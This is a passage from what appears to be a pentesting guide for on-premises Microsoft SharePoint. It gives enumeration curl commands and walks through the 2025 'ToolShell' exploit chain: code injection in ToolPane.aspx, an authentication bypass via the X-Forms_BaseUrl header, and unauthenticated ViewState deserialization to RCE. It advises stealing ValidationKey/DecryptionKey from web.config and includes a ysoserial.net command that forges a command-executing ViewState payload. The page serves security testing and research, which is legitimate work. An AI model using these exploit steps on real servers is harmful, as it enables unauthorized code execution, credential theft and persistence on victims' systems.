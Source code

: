 # Microsoft SharePoint – Pentesting & Exploitation

> Microsoft SharePoint (on-premises) is built on top of ASP.NET/IIS.  Most of the classic web attack surface (ViewState, Web.Config, web shells, etc.) is therefore present, but SharePoint also ships with hundreds of proprietary ASPX pages and web services that dramatically enlarge the exposed attack surface.  This page collects practical tricks to enumerate, exploit and persist inside SharePoint environments with emphasis on the 2025 exploit chain disclosed by Unit42 (CVE-2025-49704/49706/53770/53771).

## 1. Quick enumeration

```
# favicon hash and keywords
curl -s https://<host>/_layouts/15/images/SharePointHome.png
curl -s https://<host>/_vti_bin/client.svc | file -  # returns WCF/XSI

# version leakage (often in JS)
curl -s https://<host>/_layouts/15/init.js | grep -i "spPageContextInfo"

# interesting standard paths
/_layouts/15/ToolPane.aspx               # vulnerable page used in 2025 exploit chain
/_vti_bin/Lists.asmx                     # legacy SOAP service
/_catalogs/masterpage/Forms/AllItems.aspx

# enumerate sites & site-collections (requires at least Anonymous)
python3 Office365-ADFSBrute/SharePointURLBrute.py -u https://<host>
```

## 2. 2025 exploit chain (a.k.a. “ToolShell”)

### 2.1 CVE-2025-49704 – Code Injection on ToolPane.aspx

`/_layouts/15/ToolPane.aspx?PageView=…&DefaultWebPartId=<payload>` allows arbitrary *Server-Side Include* code to be injected in the page which is later compiled by ASP.NET.  An attacker can embed C# that executes `Process.Start()` and drop a malicious ViewState.

### 2.2 CVE-2025-49706 – Improper Authentication Bypass

The same page trusts the **X-Forms_BaseUrl** header to determine the site context.  By pointing it to `/_layouts/15/`,  MFA/SSO enforced at the root site can be bypassed **unauthenticated**.

### 2.3 CVE-2025-53770 – Unauthenticated ViewState Deserialization → RCE

Once the attacker controls a gadget in `ToolPane.aspx` they can post an **unsigned** (or MAC-only) `__VIEWSTATE` value that triggers .NET deserialization inside *w3wp.exe* leading to code execution.

If signing is enabled, steal the **ValidationKey/DecryptionKey** from any `web.config` (see 2.4) and forge the payload with *ysoserial.net* or *ysodom*:

```
ysoserial.exe -g TypeConfuseDelegate -f Json.Net -o raw -c "cmd /c whoami" |
    ViewStateGenerator.exe --validation-key <hex> --decryption-key <hex> -o payload.txt
```
